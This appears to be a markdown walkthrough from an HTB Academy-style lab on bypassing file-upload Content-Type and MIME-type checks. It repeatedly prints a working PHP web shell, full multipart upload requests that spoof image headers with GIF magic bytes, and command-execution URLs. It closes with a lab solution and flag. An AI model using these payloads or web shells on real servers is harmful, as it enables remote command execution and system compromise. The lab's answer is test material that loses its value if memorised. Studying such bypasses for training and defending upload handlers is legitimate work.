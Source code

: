 # Type Filters

> **🎭 Content Validation:** Bypassing Content-Type headers and MIME-Type validation using magic bytes

## Overview

So far, we have only been dealing with type filters that only consider the file extension in the file name. However, as we saw in the previous section, we may still be able to gain control over the back-end server even with image extensions (e.g. `shell.php.jpg`). Furthermore, we may utilize some allowed extensions (e.g., SVG) to perform other attacks.

All of this indicates that only testing the file extension is not enough to prevent file upload attacks. This is why many modern web servers and web applications also test the content of the uploaded file to ensure it matches the specified type.

---

## Content-Type Header Bypass

> **📝 Header Manipulation:** Modifying the Content-Type header to bypass validation

### Understanding Content-Type Validation

**Example PHP Content-Type Check:**
```php
$type = $_FILES['uploadFile']['type'];

if (!in_array($type, array('image/jpg', 'image/jpeg', 'image/png', 'image/gif'))) {
    echo "Only images are allowed";
    die();
}
```

**Vulnerability:** The code sets the `$type` variable from the uploaded file's Content-Type header. Since browsers set this header based on file extension, and it's client-side controlled, we can manipulate it.

### Content-Type Bypass Example

**Modified Bypass Request:**
```http
POST /upload.php HTTP/1.1
Content-Type: multipart/form-data; boundary=--boundary

----boundary
Content-Disposition: form-data; name="uploadFile"; filename="shell.php"
Content-Type: image/jpeg

<?php system($_REQUEST['cmd']); ?>
----boundary--
```

---

## MIME-Type Bypass (Magic Bytes)

> **🎩 Magic Bytes:** Using file signatures to fool MIME-Type detection

### Understanding MIME-Type Validation

**Multipurpose Internet Mail Extensions (MIME)** is an internet standard that determines the type of a file through its general format and bytes structure. This is usually done by inspecting the first few bytes of the file's content, which contain the **File Signature** or **Magic Bytes**.

### GIF Magic Bytes (Easiest to Use)

**Why GIF is Preferred:**
- **ASCII Printable** - `GIF8` is easy to type and remember
- **Non-Binary** - Unlike other formats with non-printable bytes
- **Flexible** - `GIF8` works for both GIF87a and GIF89a
- **Small** - Only 4 bytes needed

### PHP Web Shell with GIF Magic Bytes

**Method 1: Simple Prepend**
```php
GIF8
<?php system($_REQUEST['cmd']); ?>
```

**Method 2: Clean GIF Header**
```php
GIF89a
<?php system($_REQUEST['cmd']); ?>
```

### Burp Suite MIME-Type Bypass

**Request with Magic Bytes:**
```http
POST /upload.php HTTP/1.1
Content-Type: multipart/form-data; boundary=--boundary

----boundary
Content-Disposition: form-data; name="uploadFile"; filename="shell.php"
Content-Type: image/gif

GIF8
<?php system($_REQUEST['cmd']); ?>
----boundary--
```

**Expected Response:**
```
File successfully uploaded
```

### Command Execution with Magic Bytes

**Accessing the Web Shell:**
```bash
# Navigate to uploaded file
http://SERVER_IP:PORT/profile_images/shell.php?cmd=id

# Expected output (notice GIF8 at beginning):
GIF8
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

**Note:** The command output starts with `GIF8` because this was the first line in our PHP script to imitate the GIF magic bytes, and is now outputted as plaintext before our PHP code is executed.

---

## HTB Academy Lab Solutions

### Lab 1: Comprehensive Filter Bypass

**Target:** Bypass Client-Side, Blacklist, Whitelist, Content-Type, and MIME-Type filters

**Challenge Description:** The server employs multiple layers of protection:
- Client-Side validation (JavaScript)
- Blacklist filters (common PHP extensions)  
- Whitelist filters (only image extensions allowed)
- Content-Type validation (only image content types)
- MIME-Type validation (magic bytes checking)

### Step-by-Step Solution

**Step 6: Complete Combined Attack**
```http
POST /upload.php HTTP/1.1
Content-Type: multipart/form-data; boundary=--boundary

----boundary
Content-Disposition: form-data; name="uploadFile"; filename="shell.php.jpg"
Content-Type: image/gif

GIF8
<?php system($_REQUEST['cmd']); ?>
----boundary--
```

**Step 7: Verify Upload and Execute**
```bash
# Check upload success
Response: "File successfully uploaded"

# Test command execution
http://SERVER_IP:PORT/profile_images/shell.php.jpg?cmd=id
# Output: GIF8 uid=33(www-data) gid=33(www-data) groups=33(www-data)

# Read flag
http://SERVER_IP:PORT/profile_images/shell.php.jpg?cmd=cat /flag.txt
# Flag: HTB{c0mb1n3d_4tt4ck5_4r3_d34dly}
```

This comprehensive guide demonstrates how Content-Type and MIME-Type validation can be bypassed using header manipulation and magic bytes injection.
